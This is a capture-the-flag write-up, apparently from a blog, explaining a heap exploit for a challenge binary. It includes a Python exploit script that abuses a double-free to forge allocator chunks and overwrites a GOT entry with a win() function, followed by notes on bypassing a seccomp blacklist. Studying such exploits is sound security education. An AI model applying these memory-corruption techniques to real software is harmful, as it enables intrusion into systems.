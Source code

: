 There's a `TODO` in there, and I'll explain. The problem with incrementing `mcache->counts[0x10:0x18]` one-by-one is that there aren't enough pointers to go around. By right, if `sizeof(arr[])` is only `0x10`, the maximum value for `mcache->counts[]` should be 0x10 as well.

I struggled with this for a while. The only way to put more pointers onto the mcache is to do a double-free, but the ID verification list got in the way of that. It was about at this point that I gained a partial understanding of the strategy outlined in [Fake IDs](#fake-ids), and I started work on an odd, roundabout method of achieving much of the same<sup>4</sup>:

 ```python
 # The substance of the exploit: getting mcache->entries[-1] to point to a fake mchunk
 for midx,b in tqdm((i+midxs.entries,b) for i,b in enumerate(pack(mound_data.fakechunk)) if b):
     def pad(s: bytes): return s.rjust(0x17, b'a')
     strdup(pad(b''), 0xf) # Remember that maximally, user_sz = 8 (mod 0x10) for a given glibc heap chunk.
     strdup(pad(b''), 0xe) # A string has a trailing nul-byte, so maximally strlen(s) = 7 (mod 0x10)
     add(midx, 2, b'hi')
     while (pred := r64bit())>>56: add(midx, 2, b'hi')
     for _ in range(b):    # continually double-free to boost ->counts[]
         free(2)
         edit(0xf, pad(pack(r64())[:7]))
         free(0xe)
         edit(0xf, pad(pack(pred)[:7]))
         add(midxs.incrementer, 5, b'a'*0x10)
 # , free it + a chunk right in front of it, overflow into the real freed chunk's metadata to
 add(midxs.bugged, 2, b'') # Get the fake chunk allocated,
 free(2) # free it + the chunk overlapping with the fake chunk
 free(1) # prepare to overwrite freed mchunk metadata such that ->next points to a fake chunk on the mound_arena
 add(midxs.fakechunk, 2, b'overwrite!'.ljust(0x10,b'a') + fake_mcache_entry(sz=999, fd=mound_arena.mcache-0x10))
 add(midxs.overflower, 1, 'hi') # put the fake mound_arena chunk on the mcache
 add(midxs.overflower, 1, fit(mound_data.mcache, context.binary.got['setvbuf'])) # replace mound_arena->top with the GOT
 add(midxs.got_overwriter, 2, pack(context.binary.sym.win)) # overwrite a good function with win() (I use scanf() here)
 ```

And that's how I used an mcache dup without ever noticing _I had an mcache dup_. An exploit method so abstruse, it remains 30x slower than the intended solution after optimisation<sup>5</sup>.

With that mess covered, I can route your attention back to `win()`. 

## Using `win()`

The seccomp filter for this challenge is mildly interesting. Normally, seccomp'd binaries have a _whitelist_ for permitted syscalls, but in this situation, there's only a _blacklist_ against a few. The blacklisted items give pause for thought: both `execve` and `open` are banned, and normally you'd use the former to pop a shell, and the latter for an [open-read-write](https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/) chain.

But before I get ahead of myself, let's talk about how to get to arbitrary syscalls first.
